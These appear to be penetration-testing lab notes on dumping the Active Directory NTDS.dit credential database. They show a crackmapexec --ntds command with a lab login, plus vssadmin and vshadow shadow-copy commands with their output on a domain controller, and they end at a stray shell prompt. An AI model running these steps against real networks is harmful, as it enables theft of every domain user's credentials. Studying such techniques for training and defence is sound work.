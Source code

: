 #### Shadow Copies (ntds.dit and system)

As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database **NTDS.dit** database file.[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/shadow-copies#fn4) Once we've obtained a copy of said database, we can extract every user credential offline on our local Kali machine. If we have admin credentials, dump ntds.dit with crackmapexec:

```shell-session
peluqqi@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

**With Evil-WinRM we can create the shadow drive:**

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

If not, we can use vshadow binary:
```shell
C:\Tools>"C:\Program Files (x86)\Windows Kits\10\bin\10.0.19041.0\x86\vshadow.exe" -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami